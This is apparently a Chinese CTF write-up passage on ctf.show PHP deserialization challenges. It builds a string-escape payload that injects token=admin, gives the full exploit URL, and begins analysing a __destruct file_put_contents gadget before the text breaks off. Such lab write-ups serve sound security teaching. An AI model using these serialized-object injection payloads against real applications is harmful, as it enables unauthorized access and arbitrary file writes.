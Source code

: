 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208141805960.png)

又非预期了???

这题考点其实是反序列化字符逃逸

参考文章

[https://xz.aliyun.com/t/9213](https://xz.aliyun.com/t/9213)

[https://www.cnblogs.com/Sayo-/p/15164265.html](https://www.cnblogs.com/Sayo-/p/15164265.html)

大致分为字符串长度增加和字符串长度减少两种情况, 如果替换前后长度相等是无法进行逃逸的

这里 `str_replace()` 将 fuck 替换为 loveU, 多了1个字符

我们需要构造一个序列化的 payload, 内容是 `token=admin`

```
";s:5:"token";s:5:"admin";}
```

注意闭合双引号, 以及最后的 `}`, 其中 `}` 表示反序列化的终止位置

总长度为27个字符

而每从一个 fuck 到 loveU 能够逃逸1个字符

总 payload 就是 fuck*27 + payload

因为这里属性的顺序是 `$from $msg $to $token`, 所以我们在 `$to` 里面填写 payload

```
http://9d5b992a-bfcf-4c6d-b525-60d3b1002d02.challenge.ctf.show/?f=123&m=123&t=fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck%22;s:5:%22token%22;s:5:%22admin%22;}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208142113715.png)

访问 message.php 得到 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208142113094.png)

## web263

一个登录页面

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208142117048.png)

存在 www.zip

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208142119695.png)

/inc/inc.php 中的 User 类有一处 file_put_contents()

```php
class User{
    public $username;
    public $password;
    public $status;
    function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function setStatus($s){
        $this->status=$s;
    }
    function __destruct(){
        file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
    }
```